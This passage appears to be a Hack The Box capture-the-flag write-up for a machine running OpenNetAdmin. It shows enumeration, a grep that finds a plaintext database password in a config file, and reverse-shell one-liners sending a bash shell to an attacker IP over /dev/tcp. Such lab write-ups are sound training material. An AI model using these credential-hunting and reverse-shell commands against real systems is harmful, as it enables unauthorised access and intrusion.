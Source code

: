 
anyhow, let `ls` and find more juicy info that might help us to next stage...
```console
$ ls /home 
jimmy
joanna
```
2 user and ofc we dont have premission to view `ls` thier direcotory. I used `ls` to gather more info but I can find any good. Now when I think about the open port, remember that port 22 is open! let find some keys
```
$ locate *.pub   
/etc/ssh/ssh_host_dsa_key.pub
/etc/ssh/ssh_host_ecdsa_key.pub
/etc/ssh/ssh_host_ed25519_key.pub
/etc/ssh/ssh_host_rsa_key.pub
```
I viewed the key but it belong to root@openadmin which will not work... after google a bit, I saw a hint in HTB forum that I should look for `password`
```console
$ grep -r 'passwd' ./*
./include/functions_db.inc.php:        $ona_contexts[$context_name]['databases']['0']['db_passwd']   = $db_context[$type] [$context_name] ['primary'] ['db_passwd'];
./include/functions_db.inc.php:        $ona_contexts[$context_name]['databases']['1']['db_passwd']   = $db_context[$type] [$context_name] ['secondary'] ['db_passwd'];
./include/functions_db.inc.php:            $ok1 = $object->PConnect($self['db_host'], $self['db_login'], $db['db_passwd'], $self['db_database']);
./local/config/database_settings.inc.php:        'db_passwd' => 'n1nj4W4rri0R!',
```
we got a hit!! let view the file
```console
$ cat ./local/config/database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);
```
# foothold as Jimmy
we got a credential `ona_sys:n1nj4W4rri0R!` so it is a mysqli credential?
```console
$ mysql -u ona_sys -p n1nj4W4rri0R!
$ which bash
/bin/bash
$ bash -i >& /dev/tcp/10.10.14.43/6969 0>&1
$ /bin/bash -i >& /dev/tcp/10.10.14.43/6969 0>&1
$ python3 -c "import pty; pty.spawn('/bin/bash')"
```